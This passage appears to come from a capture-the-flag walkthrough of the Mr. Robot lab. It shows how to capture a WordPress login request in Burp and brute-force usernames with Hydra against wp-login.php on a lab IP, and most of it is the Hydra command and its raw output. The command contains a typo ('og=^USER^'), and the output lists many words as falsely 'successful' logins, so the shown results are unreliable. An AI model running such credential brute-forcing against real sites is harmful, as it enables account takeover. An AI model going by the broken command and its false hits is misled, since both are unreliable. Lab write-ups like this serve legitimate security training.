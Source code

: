 Once you do that, go to Burp and find this string;  
log=admin&pwd=password&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.0.48%2Fwp-admin%2F&testcookie=1  
  
This will come in handy in just a second.  
Now, we can right click and select "Send to Repeater". This will allos us to change the username & password in the Burp and then send it back to the website to see what we can get.  
  
But right now, we are going to use a special tool called **Hydra** that will allow us to bruteforce the targets username!  
  
Open a new terminal and type in;  
**Make sure you are in the same folder that you saved the Password Dictionary we downloaded from our target!**  
```
**This is where you will copy the long string that starts with log=admin&pwd=password**  
**PLEASE NOTE:** We change the "log=admin" to "log=^USER^ to allow this field to select from the dictionary we downloaded. Think of it like we are calling a variable!  
$ hydra -V -L fsocity.dic -p test 10.0.0.48 http-post-form '/wp-login.php:og=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-29 07:00:26
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.0.0.48:80/wp-login.php:og=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username
[ATTEMPT] target 10.0.0.48 - login "true" - pass "test" - 1 of 858235 [child 0] (0/0)
[ATTEMPT] target 10.0.0.48 - login "false" - pass "test" - 2 of 858235 [child 1] (0/0)
[ATTEMPT] target 10.0.0.48 - login "wikia" - pass "test" - 3 of 858235 [child 2] (0/0)
[ATTEMPT] target 10.0.0.48 - login "from" - pass "test" - 4 of 858235 [child 3] (0/0)
[ATTEMPT] target 10.0.0.48 - login "the" - pass "test" - 5 of 858235 [child 4] (0/0)
[ATTEMPT] target 10.0.0.48 - login "now" - pass "test" - 6 of 858235 [child 5] (0/0)
[ATTEMPT] target 10.0.0.48 - login "Wikia" - pass "test" - 7 of 858235 [child 6] (0/0)
[ATTEMPT] target 10.0.0.48 - login "extensions" - pass "test" - 8 of 858235 [child 7] (0/0)
[ATTEMPT] target 10.0.0.48 - login "scss" - pass "test" - 9 of 858235 [child 8] (0/0)
[ATTEMPT] target 10.0.0.48 - login "window" - pass "test" - 10 of 858235 [child 9] (0/0)
[ATTEMPT] target 10.0.0.48 - login "http" - pass "test" - 11 of 858235 [child 10] (0/0)
[ATTEMPT] target 10.0.0.48 - login "var" - pass "test" - 12 of 858235 [child 11] (0/0)
[ATTEMPT] target 10.0.0.48 - login "page" - pass "test" - 13 of 858235 [child 12] (0/0)
[ATTEMPT] target 10.0.0.48 - login "Robot" - pass "test" - 14 of 858235 [child 13] (0/0)
[ATTEMPT] target 10.0.0.48 - login "Elliot" - pass "test" - 15 of 858235 [child 14] (0/0)
[ATTEMPT] target 10.0.0.48 - login "styles" - pass "test" - 16 of 858235 [child 15] (0/0)
[80][http-post-form] host: 10.0.0.48   login: true   password: test
[80][http-post-form] host: 10.0.0.48   login: wikia   password: test
[ATTEMPT] target 10.0.0.48 - login "and" - pass "test" - 17 of 858235 [child 0] (0/0)
[ATTEMPT] target 10.0.0.48 - login "document" - pass "test" - 18 of 858235 [child 2] (0/0)
[80][http-post-form] host: 10.0.0.48   login: from   password: test
[80][http-post-form] host: 10.0.0.48   login: the   password: test
[80][http-post-form] host: 10.0.0.48   login: scss   password: test
[80][http-post-form] host: 10.0.0.48   login: Robot   password: test
[ATTEMPT] target 10.0.0.48 - login "mrrobot" - pass "test" - 19 of 858235 [child 3] (0/0)
[ATTEMPT] target 10.0.0.48 - login "com" - pass "test" - 20 of 858235 [child 4] (0/0)
[ATTEMPT] target 10.0.0.48 - login "ago" - pass "test" - 21 of 858235 [child 8] (0/0)
[80][http-post-form] host: 10.0.0.48   login: window   password: test
[80][http-post-form] host: 10.0.0.48   login: http   password: test
[ATTEMPT] target 10.0.0.48 - login "function" - pass "test" - 22 of 858235 [child 13] (0/0)
[80][http-post-form] host: 10.0.0.48   login: styles   password: test
[80][http-post-form] host: 10.0.0.48   login: false   password: test
[80][http-post-form] host: 10.0.0.48   login: now   password: test
[80][http-post-form] host: 10.0.0.48   login: Wikia   password: test
[80][http-post-form] host: 10.0.0.48   login: extensions   password: test
```